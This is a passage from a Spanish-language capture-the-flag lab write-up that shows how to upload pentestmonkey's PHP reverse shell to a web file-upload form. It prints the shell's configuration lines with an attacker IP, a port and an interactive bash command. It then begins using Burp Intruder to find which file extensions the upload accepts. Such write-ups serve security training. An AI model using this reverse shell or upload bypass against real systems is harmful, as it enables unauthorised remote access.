Intentemos subir una **Reverse Shell** de **PHP** como la de **pentestmonkey**, que puedes descargar de aquí:
* <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank">Repositorio de pentestmonkey: php-reverse-shell</a>

Recuerda modificarla para agregar tu IP y el puerto que quieras usar:
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'Tu_IP';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
```

Si la intentamos subir, nos dará el siguiente mensaje:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura16.png">
</p>

Solamente acepta **archivos ZIP** o eso sabemos por ahora.

Necesitamos saber si acepta otras extensiones, para cambiar la extensión de nuestra **Reverse Shell** y sea aceptada.

<br>

<h2 id="intruder">Aplicando Sniper Attack para Encontrar Extensiones Aceptadas por Página Web y Ganando Acceso al Contenedor de Docker</h2>

Primero, vamos a capturar la petición de la subida de archivos y la enviaremos al **Intruder**:

<p align="center">
<img src="/assets/images/THL-writeup-hiddenDocker/Captura17.png">
</p>
